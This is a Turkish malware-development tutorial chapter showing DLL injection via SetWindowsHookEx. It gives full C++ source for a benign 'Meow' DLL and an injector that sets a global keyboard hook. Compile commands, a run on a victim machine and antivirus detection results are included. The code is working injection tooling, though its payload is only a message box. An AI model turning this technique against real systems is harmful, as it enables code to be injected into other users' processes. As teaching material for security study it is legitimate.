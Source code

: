 \newpage
\subsection{17. SetWindowsHookEx ile klasik DLL enjeksiyonu. Basit C++ zararlı yazılım.}

﷽

![dll injection](./images/25/2021-11-24_18-00.png){width="80%"}    

Bu eğitimde, `SetWindowsHookEx` yöntemiyle DLL enjeksiyonunu inceleyeceğim.     

### SetWindowsHookEx

Bu tekniği gösteren bir örneğe bakalım. `SetWindowsHookEx`, bir kanca zincirine bir kanca işlevi kurar ve belirli olaylar tetiklendiğinde çağrılır. İşlev söz dizimine bakalım:     

```cpp
HHOOK SetWindowsHookExA(
  [in] int       idHook,
  [in] HOOKPROC  lpfn,
  [in] HINSTANCE hmod,
  [in] DWORD     dwThreadId
);
```

Buradaki en önemli parametre `idHook`'dur. Yüklenecek kancanın türünü belirler ve aşağıdaki değerlerden birini alabilir:    

    WH_CALLWNDPROC
    WH_CALLWNDPROCRET
    WH_CBT
    WH_DEBUG
    WH_FOREGROUNDIDLE
    WH_GETMESSAGE
    WH_JOURNALPLAYBACK
    WH_JOURNALRECORD
    WH_KEYBOARD
    WH_KEYBOARD_LL
    WH_MOUSE
    WH_MOUSE_LL
    WH_MSGFILTER
    WH_SHELL
    WH_SYSMSGFILTER

Bizim durumumuzda, tuş vuruşu mesajlarını izlememize olanak tanıyan `WH_KEYBOARD` türündeki bir olayı kancalayacağım.     

### zararlı DLL

Zararlı DLL'imizi hazırlayalım. Basitlik adına, yalnızca bir mesaj kutusu açan bir DLL oluşturuyoruz:       

```cpp
/*
evil.cpp
simple DLL for DLL inject to process
author: @cocomelonc
https://cocomelonc.github.io/tutorial/
2021/11/25/malware-injection-7.html
*/

#include <windows.h>
#pragma comment (lib, "user32.lib")

BOOL APIENTRY DllMain(HMODULE hModule, 
DWORD nReason, LPVOID lpReserved) {
  switch (nReason) {
  case DLL_PROCESS_ATTACH:
    break;
  case DLL_PROCESS_DETACH:
    break;
  case DLL_THREAD_ATTACH:
    break;
  case DLL_THREAD_DETACH:
    break;
  }
  return TRUE;
}

extern "C" __declspec(dllexport) int Meow() {
  MessageBox(
    NULL,
    "Meow from evil.dll!",
    "=^..^=",
    MB_OK
  );
  return 0;
}

```

Gördüğünüz gibi, oldukça basit bir DLL'imiz var. `DllMain()` işlevi, DLL sürecin adres alanına yüklendiğinde çağrılır. Ayrıca `Meow()` adlı bir işlev var, bu işlev dışa aktarılan bir işlevdir ve sadece *"Meow from evil.dll!"* mesajını gösterir.

### örnek. basit zararlı yazılım.

Bir sonraki adım, zararlı yazılımımızı oluşturmaktır. Kaynak koduna bakalım:     

```cpp
/*
hack.cpp
DLL inject via SetWindowsHookEx
author: @cocomelonc
https://cocomelonc.github.io/tutorial/
2021/11/25/malware-injection-7.html
*/
#include <windows.h>
#include <cstdio>

typedef int (__cdecl *MeowProc)();

int main(void) {
  HINSTANCE meowDll;
  MeowProc meowFunc;
  // load evil DLL
  meowDll = LoadLibrary(TEXT("evil.dll"));

  // get the address of exported function from evil DLL
  meowFunc = (MeowProc) GetProcAddress(meowDll, "Meow");

  // install the hook - using the WH_KEYBOARD action
  HHOOK hook = SetWindowsHookEx(WH_KEYBOARD, 
  (HOOKPROC)meowFunc, meowDll, 0);
  Sleep(5*1000);
  UnhookWindowsHookEx(hook);

  return 0;
}
```

Gördüğünüz gibi, oldukça basit. İlk olarak, zararlı DLL'imizi yüklemek için `LoadLibrary` işlevini çağırıyoruz:    

![dll injection 2](./images/25/2021-11-25_15-35.png){width="80%"}    

Daha sonra, dışa aktarılan `Meow` işlevinin adresini almak için `GetProcAddress` işlevini çağırıyoruz:     

![dll injection 3](./images/25/2021-11-25_15-36.png){width="80%"}    

Ardından, zararlı yazılımımız en önemli işlevi, `SetWindowsHookEx` işlevini çağırır. Bu işlevin aldığı parametreler, işlevin aslında ne yapacağını belirler:     

![dll injection 4](./images/25/2021-11-25_15-40.png){width="80%"}    

Gördüğünüz gibi, klavye olayı gerçekleştiğinde, işlevimiz çağrılacaktır. Ayrıca, dışa aktarılan işlevimizin adresini (`meowFunc` parametresi) ve DLL'imizin işleyicisini (`meowDll` parametresi) geçiyoruz. Son parametre olan `0`, yalnızca belirli bir programı değil, tüm programları kancalamak istediğimizi belirtir, yani bu bir global kanca olur.     
Daha sonra, kancamızın çalıştığını göstermek için `Sleep` işlevini çağırıyoruz:      

![dll injection 5](./images/25/2021-11-25_15-44.png){width="80%"}    

Ve ardından, daha önce kancalanmış olan `WH_KEYBOARD` olayını kaldırmak için `UnhookWindowsHookEx()` işlevini çağırıyoruz:     

![dll injection 6](./images/25/2021-11-25_15-46.png){width="80%"}    

Son olarak, zararlı yazılım kodunun tamamını anladıktan sonra, bunu test edebiliriz. 
İlk olarak, zararlı DLL'i derleyelim:      

```bash
x86_64-w64-mingw32-gcc -shared -o evil.dll evil.cpp -fpermissive
```

![dll injection 7](./images/25/2021-11-25_15-48.png){width="80%"}    

daha sonra zararlı yazılım kodunu derleyelim:     
```bash
x86_64-w64-mingw32-g++ -O2 hack.cpp -o hack.exe -mconsole \
-I/usr/share/mingw-w64/include/ -s -ffunction-sections \
-fdata-sections -Wno-write-strings -fno-exceptions \
-fmerge-all-constants -static-libstdc++ -static-libgcc \
-fpermissive
```

![dll injection 8](./images/25/2021-11-25_15-50.png){width="80%"}    

Şimdi, her şeyi eylemde görmek için `hack.exe`'yi kurban makinede başlatalım (benim durumumda `Windows 7 x64`):

```powershell
.\hack.exe
```

![dll injection 9](./images/25/2021-11-25_15-54.png){width="80%"}    

Görüyoruz ki, her şey başarıyla tamamlandı ve bu noktada, bir program başlattığımızda, yalnızca klavye tuşuna basıldığında mesajımız açılıyor.     

### Sonuç

Bu bölümde, `SetWindowsHookEx` işlevini kullanarak bir DLL'i bir sürecin adres alanına nasıl enjekte edebileceğimizi ve bu adres alanında rastgele kod nasıl çalıştırabileceğimizi gösterdim.       

Ancak, bu tekniğin bir sınırlaması vardır. Bu teknik, benim Windows 10 x64 makinemde çalışmıyor. Bunun nedeni şu olabilir: CIG bu tekniği engelliyor. Windows 10 x64 iki önemli özelliğe sahiptir:      

- **CFG (Control Flow Guard)** - onaylanmamış adreslere dolaylı çağrıları engeller.
- **CIG (Code Integrity Guard)** - yalnızca Microsoft/Microsoft Store/WHQL tarafından imzalanmış modüllerin süreç belleğine yüklenmesine izin verir.     

BlackHat USA 2019'daki [bu](https://i.blackhat.com/USA-19/Thursday/us-19-Kotler-Process-Injection-Techniques-Gotta-Catch-Them-All.pdf) sunumda, yazarlar CIG'nin bu tekniği nasıl engellediğini açıklıyor.

Şimdi `hack.exe` dosyamızı virustotal'a yükleyelim:

![dll injection 10](./images/25/2021-11-26_03-02.png){width="80%"}    

[https://www.virustotal.com/gui/file/273e191999eb6a4bc010eeaf9c4e196d917509250f87a121fa1cfeded41b7921](https://www.virustotal.com/gui/file/273e191999eb6a4bc010eeaf9c4e196d917509250f87a121fa1cfeded41b7921)    

**Gördüğünüz gibi, 67 antivirüs motorundan 5 tanesi dosyamızı zararlı olarak algıladı.**    

[BlackHat USA 2019 process injection techniques Gotta Catch Them All](https://i.blackhat.com/USA-19/Thursday/us-19-Kotler-Process-Injection-Techniques-Gotta-Catch-Them-All.pdf)     
[SetWindowsHookEx](https://docs.microsoft.com/en-us/windows/win32/api/winuser/nf-winuser-setwindowshookexa)    
[Using Hooks MSDN](https://docs.microsoft.com/en-us/windows/win32/winmsg/using-hooks)    
[Exporting from a DLL](https://docs.microsoft.com/en-us/cpp/build/exporting-from-a-dll-using-declspec-dllexport?view=msvc-170)        
[Github'taki kaynak kod:](https://github.com/cocomelonc/2021-11-24-malware-injection-7)    
